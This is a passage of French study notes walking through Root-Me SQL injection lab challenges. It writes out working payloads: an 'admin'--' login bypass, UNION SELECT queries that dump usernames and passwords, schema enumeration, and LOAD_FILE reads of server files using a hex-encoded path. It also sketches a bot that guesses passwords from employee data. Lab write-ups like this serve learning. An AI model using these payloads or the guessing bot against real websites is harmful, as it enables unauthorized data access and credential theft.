

# SQL Injection


## Exercices 


### [SQL Injection Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)



On peut imaginer la requete SQL :

```SQL
SELECT * FROM users WHERE login = '*****'AND password = '0000000';
```
Test avec 

test = {
    login :"admin'--"
    password : "test" 
}

pour remplacer la requetes par : 

```SQL
SELECT * FROM users WHERE login = 'admin' -- AND password = '000000';
```
Cela permet la mise en commentaire du deuxième argument (AND password);

Pour créer un bot bouclant ce type de requete on pourrait pensé tel que :

Détermination des données :
```TS
sqlRequestsTermination = [
    ''--',
    // SI REQUETE INVERSÉE : SELECT * FROM usersTable WHERE password = '' AND login = ''
    ''
]

table = [
    'users',
    'user'
]

login = [
    ?'admin',
    ?'administrator',
    ?'adm',
    ...
]
```
Ou alors récupérer une liste de password possible via des données récupérées sur le site ou l'entrepise, ou encore ses employés

```TS
password = botFindPassword(["site_name", ""site_creation_date", "compagny_name", "adminitrator_employee_name", "administrator_employee_birth_date", "..."])
password = [
    '12345',
    'test'
]
```

### [SQL Injection - String](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-String)


Dans cette exemple on peut voir que l'input de recherche est directement connecté à une requete SQL SELECT 

On pourrait pensé comme :
```SQL
--  LA requete devrait resemblée à (ou inputSearch est l'entrée de l'input):
SELECT * FROM tableJspQuoi WHERE '+ inputSearch + ' UNION SELECT 1,2 FROM tableUsers --
--  AVEC LE " ' " guillemet on ferme la valeur de recherche et on peut ajouter notre UNION, avec le double tiret "--" à la fin on met en commentaire le reste de la requet


UNION SELECT 1,2 --
-- On peut tester la table "user"
UNION SELECT 1,2 FROM user
-- On peut tester la table "users"
UNION SELECT 1,2 FROM users
-- Ça marche ! La table "users" exist et devrait contenir des informations utilisateurs...
-- On va tester le nom des champs pour le nom d'utilisateur et password
UNION SELECT login,2 FROM users
-- Ne marche pas ...
UNION SELECT username,2 FROM users
-- Fonctionne !!! On recherche le champ du mot de passe maintenant...
UNION SELECT username,pwd FROM users
-- Ne marche pas ...
UNION SELECT username,password FROM users
-- Fonctionne !!! Vous avez tous les mots de passe !
``` 


### [SQL injection - Numérique](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Numerique?q=%2Ffr%2FChallenges%2FWeb-Serveur%2FSQL-injection-numerique)


On remarque que sur la page News du site dans URI il y a des ids, et lorsques l'on test différentes chaines de caractères random dans cette id, un erreur d'inject SQL apparait, donc cet Ids est bien directement relier à une requete SQL sans modification préalable de la chaine de caractère, donc Inject SQL rapide et facile.

Comme dans le précédents exercices, on va utiliser cette entrée, pour : 
1. Fermer la requete de recherche dans la table des News 
2. Unir (UNION) une autre requete pour trouver la table des utilisateurs.
3. `1 UNION SELECT 1,2,3 FROM users
4. On recherche les champs `1 UNION SELECT 1,username, password FROM users`
5. Bravo ! Vous avec compris comment faire des injection SQL sur des site input Web !!!  

```txt
1%20UNION%20SELECT%201,2,3

```

On peut imager la requête suivante :

```SQL
SELECT 1,2 FROM users WHERE login = Login AND password = Password
SELECT 1,2 FROM users WHERE login = 1 -- AND password = Password


```

### [SQL Injection - Lecture de fichier](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Lecture-de-fichiers)


On va vérifier le nom de la table :
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20user
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20users
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20customer
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20customers
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20members
?action=members&id=1%20UNION%20SELECT%201,2,3,4%20FROM%20member
La table **member** existe bien et comporte bien 4 champs (colonnes)
No result ??
?action=members&id=1%20UNION%20SELECT%20*%20FROM%20member

Bon là il faudrait obtenir le chemin du fichier index.php pour visualisé la première couche de vérification des inputs

On va donc récupérer le chemin en entrant dans une des inputs une erreur de code php, par exemple : `<?php echo(;?>`

```PHP
Warning: mysqli_connect(): (HY000/2002): No such file or directory in /challenge/web-serveur/ch31/index.php on line 24
mysql connection error !
```
On sait maintenant que le fichier d'index.php à pour chemin **/challenge/web-serveur/ch31/index.php** et que le fonction **mysqli_connect** à été lue(ou compilée) en ligne 24 de ce fichier.

On peut maintenant affichier le fichier index en utilisant la méthode SQL **LOAD_FILE()** en quatrième argument de la méthode **SELECT**

?action=members&id=0%20UNION%20SELECT%201,2,3,LOAD_FILE(/challenge/web-serveur/ch31/index.php);
?action=members&id=0%20UNION%20SELECT%201,2,3,LOAD_FILE('/challenge/web-serveur/ch31/index.php');
?action=members&id=0%20UNION%20SELECT%201,2,3,LOAD_FILE(0x2F6368616C6C656E67652F7765622D736572766575722F636833312F696E6465782E706870);

On a une erreur de syntaxe car SQL rejet et n'interprete pas une string de ce type ainsi que les gillemets, pour contourner le problème on va l'encoder en hexadecimal
```php
[...]r MariaDB server version for the right syntax to use near '/challenge/web-serveur/ch31/index.php)' at line 1 [...]

```


**RESSOURCES**

[CrackStation](https://crackstation.net/) Pour trouver l'algorithme et décoder un mot de passe haché
[Encoder en Hexa](https://www.convertstring.com/fr/EncodeDecode/HexEncode) Pour encoder / décocher une chaine de caractère en hexadecimal
[Exploit DB](https://www.exploit-db.com/) Pour cette 
[';--have i been pwned?](https://haveibeenpwned.com/) Pour verifier les fails des compte avec une adresse Email...


```SQL 
UNION SELECT 1,2,3,4 FROM member
UNION SELECT 1,2,3,4 FROM member

UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE 1 --
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'member'--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'member'--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like `member`--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = `member`--
UNION SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 1 --


```
